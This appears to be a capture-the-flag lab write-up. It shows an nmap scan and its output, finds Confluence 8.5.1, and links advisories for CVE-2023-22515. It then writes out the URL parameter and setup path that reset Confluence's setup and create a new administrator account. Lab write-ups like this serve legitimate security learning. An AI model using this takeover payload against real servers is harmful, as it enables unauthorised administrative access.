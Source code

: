 # Root
* scanned the box: `nmap -sC -sV 10.129.231.16`
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-12 14:39 EDT
Stats: 0:01:02 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 14:40 (0:00:31 remaining)
Nmap scan report for 10.129.231.16
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
| ssh-hostkey: 
|   3072 df:ad:60:d1:65:21:ad:be:c8:75:d8:8c:ec:34:57:72 (RSA)
|   256 8e:b2:88:13:74:d4:66:30:79:38:b7:ea:a7:f8:35:51 (ECDSA)
|_  256 bf:fe:cb:4f:fb:34:fa:5f:d6:8a:b6:43:ba:0e:33:a6 (ED25519)
8090/tcp open  opsmessaging?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.49 seconds
```
* browsing to port 8090 results in a login page for confluence
![](Influence-paste.png)
* no default creds exist and `administrator:password` did not work
* looked up the version (8.5.1)
	* https://confluence.atlassian.com/security/cve-2023-22522-rce-vulnerability-in-confluence-data-center-and-confluence-server-1319570362.html
		* Dead end!
	* https://confluence.atlassian.com/security/cve-2023-22515-broken-access-control-vulnerability-in-confluence-data-center-and-server-1295682276.html
		* https://www.vicarius.io/vsociety/posts/understanding-the-confluence-vulnerability-cve-2023-22515
* by appending `server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false` to the url I was able to reinitiate the setup process
![](Influence-paste-1.png)
* I was then able to navigate to this `setup/setupadministrator-start.action` and create an account
![](Influence-paste-2.png)
![](Influence-paste-3.png)

